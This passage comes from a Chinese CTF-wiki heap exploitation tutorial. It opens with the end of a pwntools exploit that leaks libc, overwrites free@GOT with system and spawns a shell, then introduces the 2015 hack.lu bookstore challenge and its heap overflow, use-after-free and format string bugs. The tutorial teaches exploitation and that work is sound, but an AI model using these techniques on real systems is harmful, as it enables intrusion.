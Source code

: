 ```python
# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```

## 2015 hacklu bookstore
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/chunk-extend-shrink/2015_hacklu_bookstore)

### 基本信息

```shell
➜  2015_hacklu_bookstore git:(master) file books    
books: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a15f5a8e83e55c535d220473fa76c314d26b124, stripped
➜  2015_hacklu_bookstore git:(master) checksec books    
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/2015_hacklu_bookstore/books'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出该程序是动态链接的 64 位程序，主要开启了 Canary 与 NX 保护。

### 基本功能

该程序的主要功能是订书，具体如下

- 最多可以订购两本书。
- 根据编号来选择订购第几本书，可以为每本书添加对应的名字。然而在添加名字处出现了任意长度堆溢出的漏洞。
- 根据编号来删除 order，但是这里只是单纯地 free 掉，并没有置为 NULL，因此会出现 use after free 的漏洞。
- 提交订单，将两本书的名字合在一起。这里由于上面堆溢出的问题，这里也会出现堆溢出的漏洞。
- 此外，在程序退出之前存在一个**格式化字符串漏洞**。

这里虽然程序的漏洞能力很强，但是所有进行 malloc 的大小都是完全固定的，我们只能借助这些分配的 chunk 来进行操作。

### 利用思路
